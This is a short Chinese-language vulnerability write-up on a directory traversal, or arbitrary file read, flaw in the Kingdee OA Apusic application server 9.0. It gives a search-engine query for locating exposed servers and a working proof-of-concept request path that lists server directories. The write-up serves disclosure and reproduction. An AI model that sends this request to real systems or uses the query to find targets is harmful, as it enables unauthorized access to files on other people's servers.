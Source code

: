 # 金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞

## 漏洞描述

金蝶OA Apusic应用服务器(中间件) 存在任意文件读取漏洞，攻击者通过漏洞可以获取目录下的文件信息

## 漏洞影响

```
金蝶OA 9.0 Apusic应用服务器(中间件)
```

## 网络测绘

```
app="Apusic-公司产品" && title=="欢迎使用Apusic应用服务器"
```

## 漏洞复现

登录页面

![image-20220520142557418](./images/202205201425611.png)

验证POC

```
/admin/protected/selector/server_file/files?folder=/
```

![image-20220520142704544](./images/202205201427636.png)
